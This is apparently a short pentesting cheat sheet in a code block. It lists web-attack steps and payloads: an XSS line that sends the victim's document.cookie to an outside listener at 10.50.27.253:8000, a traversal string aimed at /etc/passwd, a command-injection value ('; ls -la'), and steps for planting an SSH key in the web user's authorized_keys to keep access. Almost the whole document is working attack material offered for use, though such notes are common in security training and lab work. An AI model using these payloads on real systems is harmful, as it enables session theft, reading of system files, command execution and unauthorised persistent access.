

```bash
=============
methodology
=============
http-enum script
robots.txt
view page / interact normally
view source

=====
xss
=====
<script>alert("hacked")</script>
<script>document.location="http://10.50.27.253:8000/whatever.php?username=" +document.cookie;</script>


==============
directory trav
==============

../../../../../../../../etc/passwd


==================
command injection
==================
; ls -la


===========
ssh key-gen
===========
On target
mkdir /var/www/.ssh 	(or whatever home directory)
echo "RSA KEY" > /var/www/.ssh/authorized_keys   ( might have to change the home directory )
cat /var/www/.ssh/authorized_keys

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
```

